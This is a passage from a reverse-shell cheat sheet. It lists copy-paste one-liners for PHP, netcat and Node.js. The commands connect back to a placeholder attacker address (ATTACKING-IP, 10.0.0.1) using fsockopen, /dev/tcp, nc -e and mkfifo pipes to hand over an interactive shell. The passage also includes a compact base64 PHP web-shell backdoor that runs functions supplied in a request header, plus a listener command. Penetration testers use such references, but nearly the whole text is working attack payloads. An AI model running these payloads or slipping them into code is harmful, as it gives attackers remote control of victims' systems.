 ## PHP Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell)

A useful PHP reverse shell:

```bash
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

Another PHP reverse shell (that was submitted via Twitter):

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>
```

Base64 encoded by @0xInfection:

```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```

## Netcat Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#netcat-reverse-shell)

Useful netcat reverse shell examples:

Don't forget to start your listener, or you won't be catching any shells :)

```bash
nc -lnvp 80
```

```bash
nc -e /bin/sh ATTACKING-IP 80
```

```bash
/bin/sh | nc ATTACKING-IP 80
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

A reverse shell submitted by [@0xatul](https://twitter.com/atul_hax) which works well for OpenBSD netcat rather than GNU nc:

```bash
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```

## Node.js Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#nodejs-reverse-shell)

```bash
require('child_process').exec('bash -i >& /dev/tcp/10.0.0.1/80 0>&1');
```
